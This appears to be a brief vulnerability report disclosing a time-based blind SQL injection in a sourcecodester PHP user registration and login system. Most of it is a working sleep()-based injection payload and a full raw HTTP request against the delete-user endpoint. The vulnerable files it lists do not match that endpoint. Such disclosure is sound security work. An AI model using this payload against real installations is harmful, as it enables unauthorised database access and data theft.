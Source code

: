 ## User Registration and Login System by rems has SQL Injection (Time-based Blind SQLi)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html



dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/

```
GET /endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```

1. sleep(10)
![Alt text](image-2.png)

2. sleep(15)
![Alt text](image-3.png)

